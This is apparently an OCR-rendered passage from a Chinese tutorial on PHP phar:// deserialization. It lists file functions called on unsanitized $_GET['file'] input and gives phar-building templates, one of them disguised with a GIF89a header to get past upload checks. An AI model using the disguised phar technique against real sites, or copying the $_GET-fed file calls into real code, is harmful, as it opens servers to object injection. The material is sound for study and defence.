 > ```php
> ìnclude($_GET['file']);
> fopen($_GET['file']);
> file_get_contents($_GET['file']);
> file($_GET['file']);
> file_exists($_GET['file']);
> md5_file($_GET['file']);
> filemtime($_GET['file']);
> filesize($_GET['file']);
> ```
>
> phar生成的模板：
>
> ```php
> <?php
>     class TestObject {
>     }
>     $phar = new Phar("phar.phar"); //后缀名必须为phar
>     $phar->startBuffering();
>     $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
>     $o = new TestObject();
>     $o -> data='hu3sky';
>     $phar->setMetadata($o); //将自定义的meta-data存入manifest
>     $phar->addFromString("test.txt", "test"); //添加要压缩的文件
>     //签名自动计算
>     $phar->stopBuffering();
> ?>
> ```
>
> meta-data是以序列化的形式存储的。有序列化数据必然会有反序列化操作，php一大部分的文件系统函数在通过phar://伪协议解析phar文件时，都会将meta-data进行反序列化，具体函数如上
>
> 当然也可以伪装成其他文件：
>
> ```php
> <?php
>     class TestObject {
> 
>     }
>     $phar = new Phar('phar.phar');
>     $phar -> startBuffering();
>     $phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');   //设置stub，增加gif文件头
>     $phar ->addFromString('test.txt','test');  //添加要压缩的文件
>     $object = new TestObject();
>     $object -> data = 'hu3sky';
>     $phar -> setMetadata($object);  //将自定义meta-data存入manifest
>     $phar -> stopBuffering();
> ?>
> ```


